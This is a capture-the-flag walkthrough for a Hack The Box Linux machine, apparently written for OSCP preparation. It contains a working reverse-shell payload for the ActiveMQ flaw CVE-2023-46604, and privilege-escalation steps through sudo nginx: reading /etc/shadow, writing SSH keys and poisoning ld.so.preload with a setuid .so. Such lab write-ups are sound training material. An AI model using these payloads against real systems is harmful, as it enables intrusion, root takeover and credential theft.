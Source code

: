 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)


- **Notable CVEs:** 
  - CVE-2023-46604 (ActiveMQ RCE)
  - CVE-2022-41347 (Zimbra-like LD_PRELOAD abuse)

---

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.243
```

```
nmap -p 22,80,1883,5672,8161,39751,61613,61614,61616 -sCV 10.10.11.243
```

- [80](HTTP): nginx, requires HTTP Basic Auth (`admin:admin`)
- 8161: Jetty webserver (ActiveMQ console)
- 61616: ActiveMQ 5.15.15 (vulnerable)
- MQTT, AMQP also running (ports 1883, 5672)

---

## 🐚 Shell as `activemq`

### 🧨 [CVE-2023-46604 – ActiveMQ RCE](https://github.com/evkl1d/CVE-2023-46604)

#### Step 1: Host malicious Spring XML

Edit `poc.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans 
       http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value>bash -i &gt;&amp; /dev/tcp/10.10.14.13/6969 0&gt;&amp;1</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

Host it:

```bash
python3 -m http.server 80
```

#### Step 2: Exploit

```bash
python3 exploit.py -i 10.10.11.243 -u http://10.10.14.13/poc.xml
```

#### Step 3: Catch Shell

```bash
nc -lnvp 6969
```

#### Upgrade Shell

```bash
script /dev/null -c bash
```

```
# [CTRL+Z]
stty raw -echo; fg
reset
xterm
```

---

## 🧑‍💻 Shell as Root

```bash
sudo -l
# (ALL) NOPASSWD: /usr/sbin/nginx
```

---

### 🧬 Method 1: File Read via Root nginx

`nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

Start nginx:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Read files:

```bash
curl localhost:1337/etc/shadow
curl localhost:1337/root/root.txt
```

---

### ✍️ Method 2: File Write via DAV PUT

Updated `nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

Start server:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Write SSH key:

```bash
curl -X PUT localhost:1338/root/.ssh/authorized_keys \
    -d 'ssh-ed25519 AAAA... user@host'
```

SSH as root:

```bash
ssh -i id_ed25519 root@10.10.11.243
```

---

### ☠️ Method 3: LD_PRELOAD Poisoning

#### 1. Write `nginx.conf` with poisoned error_log

```nginx
user root;
error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1339;
        root /;
    }
}
```

```bash
sudo /usr/sbin/nginx -c /tmp/nginx.conf
curl localhost:1339/tmp/pwn.so
```

#### 2. Create malicious `.so`

```c
// pwn.c
#include <unistd.h>
#include <sys/types.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/rootshell", 0, 0);
   chmod("/tmp/rootshell", 04755);
   unlink("/etc/ld.so.preload");
}
```

```bash
gcc -fPIC -shared -o /tmp/pwn.so pwn.c -ldl
cp /bin/bash /tmp/rootshell
```

#### 3. Trigger Load

```bash
sudo -l
/tmp/rootshell -p
```

---

## 🏁 Flags

```bash
cat /home/activemq/user.txt
cat /root/root.txt
```